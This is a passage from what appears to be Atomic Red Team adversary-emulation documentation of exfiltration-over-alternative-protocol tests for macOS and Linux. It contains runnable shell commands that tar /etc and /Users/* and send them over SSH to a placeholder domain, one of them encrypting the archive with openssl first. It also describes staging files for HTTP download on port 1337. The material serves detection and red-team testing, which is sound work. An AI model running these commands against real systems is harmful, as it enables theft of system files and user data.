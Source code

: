 **Supported Platforms:** macOS, Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|

#### Attack Commands: Run with `sh`!

```sh
ssh #{domain} "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz
```

<br/>
<br/>

## Atomic Test #2 - Exfiltration Over Alternative Protocol - SSH

Input a domain and test Exfiltration over SSH

Local to Remote

Upon successful execution, tar will compress /Users/* directory and password protect the file modification
of `Users.tar.gz.enc` as output.

**Supported Platforms:** macOS, Linux

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| domain | target SSH domain | url | target.example.com|
| user_name | username for domain | string | atomic|
| password | password for user | string | atomic|

#### Attack Commands: Run with `sh`!

```sh
tar czpf - /Users/* | openssl des3 -salt -pass #{password} | ssh #{user_name}@#{domain} 'cat > /Users.tar.gz.enc'
```

<br/>
<br/>

## Atomic Test #3 - Exfiltration Over Alternative Protocol - HTTP

A firewall rule (iptables or firewalld) will be needed to allow exfiltration on port 1337.

Upon successful execution, sh will be used to make a directory (/tmp/victim-staging-area), write a txt file, and host
the directory with Python on port 1337, to be later downloaded.
